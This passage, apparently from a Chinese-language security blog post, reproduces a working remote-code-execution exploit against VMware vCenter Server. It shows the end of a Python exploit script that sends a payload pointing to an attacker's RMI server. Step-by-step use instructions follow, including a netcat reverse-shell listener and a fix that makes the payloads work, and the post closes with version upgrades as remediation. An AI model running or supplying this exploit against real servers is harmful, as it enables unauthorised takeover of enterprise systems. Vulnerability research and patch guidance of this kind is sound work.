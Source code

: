 ```

    r = requests.post(target, data=json.dumps(data), headers=headers, verify=False, proxies=proxies)

    print("[+] send payload success.")
    print()
    print("[END] VMWare vCenter RCE Done.")

headers = {"Content-Type": "application/json"}

if __name__ == '__main__':
    banner()
    try:
        target = sys.argv[1]
        rmi_class = sys.argv[2]
        up = urlparse(target)
        target = up.scheme + "://" + up.netloc
        payload1(target)
    except:
        print("Example: \n\tpython3 " + sys.argv[
            0] + " <target> <rmi://ip/class>\n")
```

首先需要启动 RMI  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgX5e53c1DFS646gic8h6IcLbQib3Z2SE5ib0Z4rjdwps19EhueoFcH2wBgRskJLDibWDia7RhE8p08h5Q/640?wx_fmt=png)

然后开启 reverse shell 监听

nc -lvnp 5555

最后执行 EXP

  
![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgX5e53c1DFS646gic8h6IcLj55FaqvA0bCUejqMicp85HPY8BP7eJlLolWnPD4OQLOpibdia6bQLAATw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgX5e53c1DFS646gic8h6IcL8YPMFmnvPibZaluxsmv7z2ZXa4SVEmdA8REAO65zay0FSRgv3RTFwSA/640?wx_fmt=png)

**注意：**复现中发现该 EXP 的 payload5 和 payload6 函数中的 None 要删掉，不然会失败  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgX5e53c1DFS646gic8h6IcLbibTgt6MjkZI2YpyySnyBribibq7zBhbiamu6C9VB8N59hjmNtjdT3wibfg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgX5e53c1DFS646gic8h6IcL3bgib2g4OgtTW8VfT4NmNY0Butl4lu1icAz5WFo8dzhFibuXFqfOeJEUQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgX5e53c1DFS646gic8h6IcLiasWNhRvO7YpiapLamHxZF7ZEXatOkSyadia2uXdTibYXKLYOJibH1431YQ/640?wx_fmt=png)

**0x06 修复方式**  

  

VMware vCenter Server:

7.0 版本升级到 7.0 U2b

6.7 版本升级到 6.7 U3n

